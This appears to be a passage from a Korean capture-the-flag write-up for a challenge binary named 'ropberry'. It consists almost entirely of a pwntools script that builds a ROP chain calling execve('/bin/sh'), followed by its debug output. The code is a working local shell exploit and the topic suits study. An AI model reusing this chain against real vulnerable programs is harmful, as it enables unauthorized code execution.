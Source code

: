 첫번째 `read()`에서 `"/bin/sh\x00"`를 `stdin`으로 입력해주면 된다. 

```python 
from pwn import *

context.log_level = 'debug'

int_ret = 0x08059d70
pop_eax_ret = 0x080e2b31
pop_ebx_ret = 0x080c4730
pop_ecx_ret = 0x080e394a
pop_edx_ret = 0x0805957a
pop3ret = 0x804859c
mov_ptr_ecx_eax_ret = 0x0804b69a

read = 0x80580d0
write = 0x8058140

writable = 0x080efd90

#execve("/bin/sh", ["/bin/sh"], 0)

payload = 'a'*4 + 'b'*4

payload += p32(read) + p32(pop3ret) + p32(0) + p32(writable) + p32(8)

payload += p32(write) + p32(pop3ret) + p32(1) + p32(writable) + p32(12)

payload += p32(pop_ecx_ret) + p32(writable+0x10) + p32(pop_eax_ret) + p32(writable)

payload += p32(mov_ptr_ecx_eax_ret)

payload += p32(pop_eax_ret) + p32(0xb) + p32(pop_ebx_ret) + p32(writable) + p32(pop_ecx_ret) + p32(writable+0x10) + p32(pop_edx_ret) + p32(0) + p32(int_ret)

with open('./payload', 'w') as fp:
    fp.write(payload)

p = process('./ropberry')
p.recvuntil('\n')
p.sendline(payload)
#gdb.attach(proc.pidof(p)[0])

p.sendline("/bin/sh\x00")
p.interactive()
```

```bash
[+] Starting local process './ropberry': pid 63216
[DEBUG] Received 0x2d bytes:
    '> Ok, now give me the name of our president.\n'
[DEBUG] Sent 0x69 bytes:
    00000000  61 61 61 61  62 62 62 62  d0 80 05 08  9c 85 04 08  │aaaa│bbbb│····│····│
    00000010  00 00 00 00  90 fd 0e 08  08 00 00 00  40 81 05 08  │····│····│····│@···│
    00000020  9c 85 04 08  01 00 00 00  90 fd 0e 08  0c 00 00 00  │····│····│····│····│
    00000030  4a 39 0e 08  a0 fd 0e 08  31 2b 0e 08  90 fd 0e 08  │J9··│····│1+··│····│
    00000040  9a b6 04 08  31 2b 0e 08  0b 00 00 00  30 47 0c 08  │····│1+··│····│0G··│
    00000050  90 fd 0e 08  4a 39 0e 08  a0 fd 0e 08  7a 95 05 08  │····│J9··│····│z···│
    00000060  00 00 00 00  70 9d 05 08  0a                        │····│p···│·│
    00000069
[DEBUG] Sent 0x9 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000009
[*] Switching to interactive mode
[DEBUG] Received 0xc bytes:
```